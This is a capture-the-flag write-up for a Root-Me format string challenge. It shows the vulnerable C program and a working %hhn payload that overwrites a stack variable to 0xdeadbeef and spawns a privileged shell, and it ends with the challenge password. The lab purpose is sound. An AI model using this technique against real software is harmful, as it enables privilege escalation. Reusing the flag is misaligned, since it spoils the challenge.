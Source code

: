 # ELF x86 - Format string bug basic 2
- Point: 20pts
- Author: [Lyes](https://www.root-me.org/Lyes?lang=en),  8 April 2015
- Level: Medium<br>
- SSH Access:&emsp;ssh -p 2222 app-systeme-ch14\@challenge02.root-me.org
- Password:&emsp;app-systeme-ch14

![image](https://user-images.githubusercontent.com/48288606/141644747-50305e8e-2a4d-4b42-8c15-5d3c4b322654.png)

## Write-up:

```
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>
 
int main( int argc, char ** argv )
 
{
 
        int var;
        int check  = 0x04030201;
 
        char fmt[128];
 
        if (argc <2)
                exit(0);
 
        memset( fmt, 0, sizeof(fmt) );
 
        printf( "check at 0x%x\n", &check );
        printf( "argv[1] = [%s]\n", argv[1] );
 
        snprintf( fmt, sizeof(fmt), argv[1] );
 
        if ((check != 0x04030201) && (check != 0xdeadbeef))    
                printf ("\nYou are on the right way !\n");
 
        printf( "fmt=[%s]\n", fmt );
        printf( "check=0x%x\n", check );
 
        if (check==0xdeadbeef)
        {
                printf("Yeah dude ! You win !\n");
                setreuid(geteuid(), geteuid());
                system("/bin/bash");
        }
}
```
References:

[%n format specifier](https://www.geekforgeeks.org/g-fact-31/)<br>

Our aim is overwriting the **check**'s value. We leverage a vulnerability in 
`snprintf( fmt, sizeof(fmt), argv[1] );` 
with no **format specifier**. Examine the stack and find a way to change that value.

### Solution:
Let's try looking into the stack by usual payload to "scan" the stack<br>
`./ch14 aaaa.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x`<br>
Output:

![image](https://user-images.githubusercontent.com/48288606/146907436-2d2cfdb9-ab69-411b-a6e7-2366ba28adb9.png)

- As shown, the "AAAA" value is written in 9th of format string, we can prepare our value to this location.
- There are 2 ways to get **"deadbeef"** value. We can split it into 4 bytes or 2 bytes, the more division, the more relief execution time is. So i take second method.
- Split `0xdeadbeef` into 4 bytes and we will overwrite  with "little-endian" order. `0xef`, `0xbe`, `0xad`, `0xde` and convert to decimal for calculating for later as below:
```
>>> int(0xef)
239
>>> int(0x1be)
446
>>> int(0x2ad)
685
>>> int(0x3de)
990
```
- We have to make these value increase continously in our stack so we ensure that **0xef < 0x1be < 0x2ad < 0x3de** and then we use **%hhn** to get 1 byte value to have our desired values. (We can use **%hn** if we use the first method - split into 2 parts of 2 bytes). Then we calculate the value to add between these bytes to get specific value. 
 - We already have 16 bytes address, to get the right value of first byte. We pad more **239 - 16 = 223**
 - We already have 239 bytes above, to get the right value of first byte. We pad more **446 - 239 = 207**
 - We already have 446 bytes above, to get the right value of first byte. We pad more **685 - 446 = 239**
 - We already have 685 bytes above, to get the right value of first byte. We pad more **990 - 685 = 305**

Then we will change the value of **check** in its address (the program 's already shown it in output). Here's the layout of what we've done:

![image](https://user-images.githubusercontent.com/48288606/146911826-3d6f1aa6-cec3-4516-83da-dbaae0f18105.png)

Payload: `./ch14 $(python -c "print('\x98\xfa\xff\xbf' + '\x99\xfa\xff\xbf' + '\x9a\xfa\xff\xbf' + '\x9b\xfa\xff\xbf' + '%223d%9\$hhn' + '%207d%10\$hhn' + '%239d%11\$hhn' + '%305d%12\$hhn')")`

Pass: 1l1k3p0Rn&P0pC0rn


